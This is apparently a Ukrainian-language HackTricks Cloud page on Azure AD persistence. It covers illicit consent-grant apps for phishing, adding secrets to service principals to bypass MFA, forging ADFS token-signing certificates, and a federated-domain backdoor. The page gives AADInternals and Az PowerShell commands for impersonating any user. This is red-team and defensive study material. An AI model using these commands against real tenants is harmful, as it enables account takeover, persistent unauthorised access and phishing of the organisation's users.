 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

За замовчуванням будь-який користувач може зареєструвати додаток в Azure AD. Тому ви можете зареєструвати додаток (тільки для цільового орендаря), який потребує дозволів з високим впливом з адміністративним погодженням (схвалити його, якщо ви адміністратор) - наприклад, надсилання електронної пошти від імені користувача, управління ролями тощо. Це дозволить нам **виконувати фішингові атаки**, які будуть дуже **прибутковими** у разі успіху.

Більше того, ви також можете прийняти цей додаток зі своїм користувачем як спосіб підтримувати доступ до нього.

### Applications and Service Principals

З привілеями адміністратора додатків, GA або користувацькою роллю з дозволами microsoft.directory/applications/credentials/update, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатку.

Можливо **націлити додаток з високими дозволами** або **додати новий додаток** з високими дозволами.

Цікавою роллю, яку можна додати до додатку, була б **роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **скидати пароль** глобальних адміністраторів.

Ця техніка також дозволяє **обійти MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токенів

З **привілеями DA** на локальному AD можливо створити та імпортувати **нові сертифікати підпису токенів** та **сертифікати розшифровки токенів**, які мають дуже тривалий термін дії. Це дозволить нам **увійти як будь-який користувач**, чий ImuutableID ми знаємо.

**Виконайте** нижче наведений команду як **DA на сервері(ах) ADFS**, щоб створити нові сертифікати (за замовчуванням пароль 'AADInternals'), додати їх до ADFS, вимкнути автоматичне оновлення та перезапустити службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Тоді оновіть інформацію про сертифікат з Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

З привілеями GA в орендаря можливо **додати новий домен** (повинен бути перевірений), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до конкретного сертифіката** (any.sts у наведеній нижче команді) та видавця:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Посилання

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
